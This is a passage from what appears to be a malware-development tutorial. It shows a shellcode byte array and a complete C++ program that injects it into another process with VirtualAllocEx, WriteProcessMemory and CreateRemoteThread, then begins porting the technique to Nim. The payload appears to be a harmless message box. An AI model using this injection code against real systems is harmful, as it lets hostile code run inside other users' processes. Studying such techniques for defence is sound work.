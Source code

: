 ```cpp
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
  "\x4c\x8d\x85\x09\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
  "\xd5\x6d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x63\x61"
  "\x74\x00";

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

As you can see, the logic is pretty simple, you can read more about it here: [https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)     

### practical example 1

Let's implement the same logic in Nim. This post is not introduction to Nim, for this you can read official documentation intro.    

```nim
echo "hello world!"
```

For process injection, let's create process first:    

```nim
import osproc
import winim

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID
```

As you can see, we need modules like `winim` or `osproc`, then just call `startProcess`.     

